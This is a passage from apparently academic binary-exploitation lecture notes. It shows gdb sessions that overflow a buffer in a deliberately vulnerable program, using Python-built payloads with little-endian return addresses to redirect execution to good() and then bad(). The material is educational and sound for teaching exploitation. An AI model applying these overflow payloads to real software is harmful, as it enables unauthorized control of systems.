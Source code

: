 Interesting. All the bytes are there, but they are in reverse! We forgot
that x86 machines use Little Endian, which means that the most
significant byte is in the right most position. Let's reverse the bytes:

``` {.example}
(gdb) run 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'"`

Breakpoint 8, vuln (n=0, str=0xbffff869 'A' <repeats 48 times>, "\301\204\004\b") at vulnerable.c:21
21   while( i < n ){
(gdb) c
Continuing.
Go Navy!

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

Woohoo! It worked. We got "Go Navy!" to print. But, our program still
had a segmentation fault. Why?

This happened because we were able to change the return address for the
vuln() program which returned control to good() instead of to main(),
but this is not a call instruction. It is more like a jmp instruction.
The difference being that call does more than jmp, in particular, it
will push the return address onto the stack prior to the jmp so that
control can be properly returned. We can do that too, we just need to
write one more address on the stack to where we want good() to return
to. Because we're being bad, why not have it call bad()?

``` {.example}
(gdb) ds bad
Dump of assembler code for function bad:
   0x080484ad <+0>: push   ebp
   0x080484ae <+1>: mov    ebp,esp
   0x080484b0 <+3>: sub    esp,0x18
   0x080484b3 <+6>: mov    DWORD PTR [esp],0x80485f0
   0x080484ba <+13>: call   0x8048370 <puts@plt>
   0x080484bf <+18>: leave  
   0x080484c0 <+19>: ret    
End of assembler dump.
(gdb) run 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08\xad\x84\x04\x08'"`
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08\xad\x84\x04\x08'"`

Breakpoint 8, vuln (n=134513837, str=0xbffff800 "") at vulnerable.c:21
21   while( i < n ){
(gdb) c
Continuing.
Go Navy!
You've been naughty!

Program received signal SIGSEGV, Segmentation fault.
0xbffff800 in ?? ()
```
